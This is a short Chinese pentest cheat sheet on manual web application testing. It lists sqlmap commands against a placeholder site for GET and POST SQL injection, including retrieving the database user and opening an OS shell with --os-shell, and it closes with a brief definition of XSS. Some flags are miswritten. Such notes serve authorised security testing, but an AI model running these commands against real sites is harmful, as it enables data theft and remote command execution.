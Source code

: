 
# 人工检测WEB应用程序

## SQL注入

常用的SQL注入工具是SQLmap和SQLninja。

### GET参数注入

- 验证某个SQL注入是否有效

```css
sqlmap -u "http://site.com/info.php?user=test&pass=test" -b
```

- 获取数据库用户名

```css
sqlmap -u "http://site.com/info.php?user=test&pass=test" -current-user
```
- 交互shell

```css
sqlmap -u "http://site.com/info.php?user=test&pass=test" --os-shell
```

**技巧提示：**

- 可能需要指定要攻击的数据库的具体类型。若认为可能存在注入，而SQLmap又没什么发现，就试试--dbms-[database]
- 若目标网站要求用户进行登录认证，可通过浏览器登录到网站，然后获取cookie信息(burpsuit提取)。最后用--data=[cookie]选项定义cookie。
- 卡住了，就试试sqlmap --wizard

### POST参数注入

POST方式不是通过URL传递参数，而是在递交的数据里传递参数。通常传递用户名和密码。

- 验证某个SQL注入是否有效

```css
sqlmap -u "http://site.com/info.php" --data="user=test&pass=test" -b
```

- 获取数据库用户名

```css
sqlmap -u "http://site.com/info.php" --data="user=test&pass=test" --current-user
```

- 交互shell:

```css
sqlmap -u "http://site.com/info.php" --data="user=test&pass=test" --os-shell
```

## XSS

XSS是一种由于Web应用程序缺乏输入验证而引起的针对网站访问客户的攻击，分为反射型和存储型。攻击的本质就是攻击人员向网站访问客户的浏览器里注入了某种代码。
